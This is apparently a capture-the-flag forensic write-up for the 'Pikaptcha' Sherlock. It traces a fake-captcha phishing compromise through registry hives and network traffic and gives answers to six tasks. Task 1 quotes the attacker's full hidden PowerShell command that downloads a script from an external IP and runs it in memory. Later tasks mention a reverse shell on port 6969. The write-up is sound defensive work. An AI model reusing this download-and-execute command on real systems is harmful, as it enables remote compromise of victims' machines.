









# Pikaptcha

## Table of Contents

- [Sherlock Scenario](#Sherlock-Scenario)
- [Evidences](#Evidences)
- [Tasks](#Tasks)
    - [Task 1](#Task-1)
    - [Task 2](#Task-2)
    - [Task 3](#Task-3)
    - [Task 4](#Task-4)
    - [Task 5](#Task-5)
    - [Task 6](#Task-6)
- [Conclusion](#Conclusion)

 
 

## Sherlock Scenario
> Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

 
 

## Evidences

In this Sherlock, we were given a network capture file called `pikaptcha.pcapng` and a zip archive with backups from a Windows operating system with the paths `C:\Users` and `C:\Windows`.

 
 

## Tasks

### Task 1
> It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

__Answer:__ `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

To analyze the registry hive of the user Grunewald, I went to his home directory of the backup and used the tool regripper to parse the NTUSER.DAT and search for PowerShell activities.

__Command:__ `regripper -r NTUSER.DAT -f ntuser`

 

Here we see the PowerShell download activity in the RunMRU key.

 

### Task 2
> At what time in UTC did the malicious payload execute?

__Answer:__ `2024-09-23 05:07:45`

The payload was executed at `2024-09-23 05:07:45`.

 

### Task 3
> The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

__Answer:__ `579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE`

Now that I had the IP, I turned my attention to the network recording file.

Filtered by the IP address, I first looked at where in the recording the first frame with the retrieval of the file takes place.

In the frame no. `148881` we can see the download.

Under `File` -> `Export` -> `HTTP...` I exported the downloaded script and retrieved the hash.

 

### Task 4
> To which port did the reverse shell connect?

__Answer:__ `6969`

To do this, I decoded the Powershell code from the downloaded script.

The attacker connects back to his server via port 6969.

In the network capture, this communication starts at frame no. `149239`.

 

### Task 5
> For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

__Answer:__ `403`

To do this, we subtract the time of the end frame no. `480663` and the start frame no. `149239` and arrive at `403` seconds.

 

 

### Task 6
> Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

__Answer:__ `stageClipboard`

Now I searched the network capture specifically for website calls.

And in the source code was the Javascript function I was looking for, which brings the malicious payload into the victim's clipboard.

 

## Conclusion

A fun Sherlock.

It took me a while to get started as I didn't quite know where to start looking.

The biggest takeaway from this Sherlock was to familiarize myself more with the `regripper` tool, which I had never used before.

